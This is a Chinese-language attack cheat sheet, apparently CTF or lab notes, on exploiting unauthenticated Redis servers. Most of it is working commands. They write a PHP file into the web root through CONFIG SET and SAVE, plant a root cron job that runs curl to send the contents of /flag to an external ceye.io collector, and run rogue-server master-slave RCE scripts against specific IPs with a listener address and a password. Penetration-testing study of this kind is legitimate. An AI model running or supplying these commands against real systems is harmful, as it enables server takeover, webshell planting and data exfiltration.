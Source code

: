 ## **redis未授权**
redis是一个字典数据库，redis在默认安装情况下，默认端口为6379，没有添加过防火墙信任规则，修改默认端口等防护策略，这相当于直接将 Redis服务暴露到公网上，如果设置密码认证（默认为空）的情况，会导致任意用户都可访问目标服务器--即Redis未授权访问，以及读取Redis的数据，攻击者可以在这个条件下，如果Redis是以root身份运行，利用root权限的身份写入ssh公钥，通过ssh登录目标服务器，写入webshell，拿到控制权。

默认bond 127.0.0.1 本地可以直接连接6379，且没有密码，有密码时只需要密码无需账户。
用自带的连接服务程序redis-cli：
```
=>redis-cli -h 127.0.0.1 -p 6379
```


在配置文件可以手动
将bond改为0.0.0.0则所有ip可连接，
也可以设置密码，如123456
```
用密码登录：
=>redis-cli -h 127.0.0.1 -p 6379 -a 123456
=>redis-cli -h 127.0.0.1 -p 6379 auth 123456


config get dir   //获取redis运行路径，默认 /root/redis-6.2.4
config get dbfilename //默认数据库名称dump.rdb，数据保存在这个文件里
redis是默认某个时间点将数据写入dump.rdb中在dir目录下。
```

## **redis写文件**
1. 是用root账号启动的redis
    权限chomd 777
2. 连接上redis，无授权直接连接上，有授权想办法搞auth密码，如文件包含（redis配置文件一般/etc/redis.conf中的requirepass）、弱口令爆破、历史命令。


3. 利用redis默认的RDB持久化 任意写文件。
```
1. 写webshell到web容器目录中
2. 写自己生成的公钥到ssh服务的authorizd-keys文件，实现免密ssh登录
3. 写定时任务文件，执行任意命令，开启反弹shell等。
```


## **写webshell到web容器目录中**
```
连接上redis后
flushall //清掉所有变量数据
info //查看主机信息

config set dir /var/www/html     //设置redis运行路径为网站目录，如果没有这个目录会提示没有
config set dbfilename info.php  //把数据库名dump.rdb改为info.php
set x  "<?php phpinfo();?>"        //一个字典数据
save    //写入快照，也就把info.php写如网站目录下


config set dir C:\phpstudy_pro\WWW\     //设置redis运行路径为网站目录，如果没有这个目录会提示没有
config set dbfilename info.php  //把数据库名dump.rdb改为info.php
set x  "<?php phpinfo();?>"        //一个字典数据
save    //写入快照，也就把info.php写如网站目录下                                
```

写jsp的webshell比较长，需要按照分段一定顺序写入，参考：
https://cloud.tencent.com/developer/article/2422977

<https://mp.weixin.qq.com/s?__biz=MzI3NzI4OTkyNw==&mid=2247489517&idx=1&sn=8c7fe6ee088f69d942278a87b1563943&chksm=ea1b8ece9279defb52a7e236a4a4bff8829dc5ef4d5e9d7c3b803ff9e9f41a1368f9560df022&mpshare=1&scene=23&srcid=1017nbHrNHmzb0EPRZGC6xHm&sharer_shareinfo=cb096fec12520848442a4490e895b708&sharer_shareinfo_first=cb096fec12520848442a4490e895b708#rd>


## **写定时任务文件，开启反弹shell**
```
连接上redis后
flushall //清掉所有变量数据
info //查看主机信息

config set dir /var/spool/cron   //dir写入文件的目录,centos定时任务
config set dbfilename root   //文件名为root，欺骗是root创建的定时任务
set x "\n\n\n * * * * * curl http://2qytvx.ceye.io/?r=$(cat /flag) \n\n\n"  //定时任务获取flag
        \n保证每一个任务在一行，
        *****每分钟执行一次
```


```
ubuntu下可以利用的cron有以下几个地方：
/etc/crontab：该文件里面的任务计划可以直接执行
/etc/cron.d/*：该目录下的任意文件都可以被当作任务计划去执行，并且避免了原先任务计划文件被覆盖的情况
/var/spool/cron/crontabs/：该目录下定义的任务计划文件会被执行，不过需要有一个前提?
```
可以利用redis-exp.exe工具，直接连接以上操作。

## **redis<=5.05主从同步直接rce**
redis<=5.05主从同步直接rce原理？。
>
上述的写文件漏洞利用方法是必须要求redis服务的运行权限是root权限的，所以比较苛刻。
如果非root用户的redis4.x-5.05版本的redis服务有直接的命令执行漏洞，可以直接那来使用：
公网linux下使用脚本：<https://github.com/vulhub/redis-rogue-getshell>
使用该py3脚本即可直接在redis服务器上执行命令，进而反弹shell。
```
cd RedisModulesSDK/
make  //生成exp.so文件
cd ../
python3 redis-master.py -r 192.168.16.179 -p 6379 -L 192.168.16.128 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
这里局域网两机可达

python3 redis-master.py -r node5.buuoj.cn -p 28409  -L 47.109.58.205 -P 8088 -f RedisModulesSDK/exp.so -c "whoami"
```



^
## **Redis 4.x/5.x RCE**
<https://github.com/Dliv3/redis-rogue-server>

python3 redis-rogue-server.py --rhost 139.55.146.42 --rport 6379 --passwd U0^mRtU+cKiY_17 --lhost 47.109.58.205 --lport 2333
